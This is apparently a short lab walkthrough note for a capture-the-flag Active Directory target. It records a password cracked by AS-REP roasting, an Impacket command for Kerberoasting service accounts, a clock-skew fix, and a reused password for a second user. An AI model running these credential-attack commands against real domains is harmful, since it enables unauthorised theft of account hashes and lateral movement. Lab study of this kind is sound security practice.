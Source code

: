 # ASREP Roasting
----
[[ASREP Roasting Lab]]
- `fsmith : Thestrokes23`

# Kerberoasting
----
- Now we have fsmith's credentials, we can try Kerberoasting to get hashes of s**ervice accounts with SPNs:**
	- `Impacket-GetUserSPNs EGOTISTICAL-BANK.LOCAL/fsmith:Thestrokes23 -dc-ip 10.10.10.175 -request`
		- ==Note- If we get `KRB_AP_ERR_SKEW(Clock skew too great)`run this command:==
			- `sudo rdate -n <DC_IP>`
		- ![[Pasted image 20250424210342.png]]
	- Password reuse : `Thestrokes23`
	- `hsmith` : `Thestrokes23`
		- ![[Pasted image 20250424210818.png]]